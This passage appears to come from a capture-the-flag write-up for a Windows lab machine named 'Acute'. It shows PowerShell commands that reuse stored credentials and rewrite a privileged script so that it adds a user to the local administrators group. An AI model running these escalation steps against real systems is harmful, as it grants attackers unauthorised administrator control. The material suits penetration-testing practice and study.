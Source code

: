 Now we have user flag and script is containing these commands:

```
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

We can see that imonks uses creds for user jmorgan who found out to be in the local administrator group:

![msf_result](images/Acute11.png)

Now we can change script to make edavies an administrator:

```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock { (Get-Content "C:\Users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','net localgroup administrators edavies /add' | Set-Content -Path "C:\Users\imonks\Desktop\wm.ps1" -Force; Get-Content "C:\Users\imonks\Desktop\wm.ps1" }
```
```PS
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -ScriptBlock{C:\Users\imonks\Desktop\wm.ps1} -Credential $cred
net localgroup administrators
```

![msf_result](images/Acute12.png)
